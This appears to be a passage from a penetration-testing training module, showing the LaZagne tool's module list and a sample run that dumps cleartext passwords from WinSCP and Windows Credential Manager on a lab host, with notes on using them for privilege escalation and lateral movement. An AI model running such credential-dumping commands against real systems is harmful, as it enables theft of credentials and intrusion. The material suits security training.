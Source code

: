 ```powershell-session
    mails               Run mails module
    all                 Run all modules
    git                 Run git module
    svn                 Run svn module
    windows             Run windows module
    wifi                Run wifi module
    maven               Run maven module
    sysadmin            Run sysadmin module
    browsers            Run browsers module
    games               Run games module
    multimedia          Run multimedia module
    memory              Run memory module
    databases           Run databases module
    php                 Run php module

optional arguments:
  -h, --help            show this help message and exit
  -version              laZagne version
```

#### Running All LaZagne Modules

As we can see, there are many modules available to us. Running the tool with `all` will search for supported applications and return any discovered cleartext credentials. As we can see from the example below, many applications do not store credentials securely (best never to store credentials, period!). They can easily be retrieved and used to escalate privileges locally, move on to another system, or access sensitive data.

```powershell-session
PS C:\htb> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: jordan ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22

------------------- Credman passwords -----------------

[+] Password found !!!
URL: dev01.dev.inlanefreight.local
Login: jordan_adm
Password: ! Q A Z z a q 1

[+] 2 passwords have been found.

For more information launch it again with the -v option

elapsed time = 5.50499987602
```

---
